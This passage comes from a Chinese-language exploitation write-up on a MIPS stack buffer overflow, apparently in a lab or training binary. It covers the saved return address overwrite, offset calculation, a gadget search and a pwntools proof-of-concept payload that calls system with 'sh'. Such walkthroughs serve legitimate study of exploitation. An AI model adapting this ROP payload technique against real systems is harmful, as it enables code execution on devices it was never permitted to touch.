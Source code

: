 [<img class="aligncenter" alt="" data-original="https://p2.ssl.qhimg.com/t01afbe73572b19af45.png">](https://p2.ssl.qhimg.com/t01afbe73572b19af45.png)

查看发生异常时saved_ra地址被脏数据覆盖

[<img class="aligncenter" alt="" data-original="https://p2.ssl.qhimg.com/t0117eeba9ee41c9a93.png">](https://p2.ssl.qhimg.com/t0117eeba9ee41c9a93.png)

#### <a class="reference-link" name="2.2%20%E5%8A%AB%E6%8C%81%E6%89%A7%E8%A1%8C%E6%B5%81%E7%A8%8B"></a>2.2 劫持执行流程

查看缓冲区大小及栈空间

[<img class="aligncenter" alt="" data-original="https://p2.ssl.qhimg.com/t01d3c0ca8ce1f24a0e.png">](https://p2.ssl.qhimg.com/t01d3c0ca8ce1f24a0e.png)

buf 缓冲区大小为256字节

passwd文件600字节

buf空间所占大小为0x1A0

计算所要覆盖的数据大小 :0x1A0 – 0x4 = 0x19C(412)

#### <a class="reference-link" name="2.3%20%E7%A1%AE%E5%AE%9A%E5%81%8F%E7%A7%BB"></a>2.3 确定偏移

使用工具

```
$ python patternLocOffset.py -s 0x6E41376E -l 600
```

[<img class="aligncenter" alt="" data-original="https://p3.ssl.qhimg.com/t01fadadbcce5e71999.png">](https://p3.ssl.qhimg.com/t01fadadbcce5e71999.png)

#### <a class="reference-link" name="2.4%20%E7%A1%AE%E5%AE%9A%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F"></a>2.4 确定攻击方式

漏洞程序有一个函数do_system_0函数

查找gadget

[<img class="aligncenter" alt="" data-original="https://p5.ssl.qhimg.com/t014a788fe1052bfd3a.png">](https://p5.ssl.qhimg.com/t014a788fe1052bfd3a.png)

```
.text:00401FA0                 addiu   $a1, $sp, 0x58+var_40(24)  # a1-&gt;命令字符串
.text:00401FA4                 lw      $ra, 0x58+var_4($sp) ($sp(84)) # do_system函数地址
.text:00401FA8                 sltiu   $v0, 1
.text:00401FAC                 jr      $ra
.text:00401FB0                 addiu   $sp, 0x58
```

### <a class="reference-link" name="3.%20POC"></a>3. POC

```
from pwn import *

context.endian = "little"
context.arch = "mips"
gadget = 0x00401FA0
system_addr = 0x00400390
cmd = "sh"
cmd += "\x00" * (4 - (len(cmd) % 4))

padding = 'A' * 0x19C
padding += p32(gadget)
padding += 'A' * 24
padding += cmd
padding += "B" * (0x3C - len(cmd))
padding += p32(system_addr)
padding += "TTTT"

```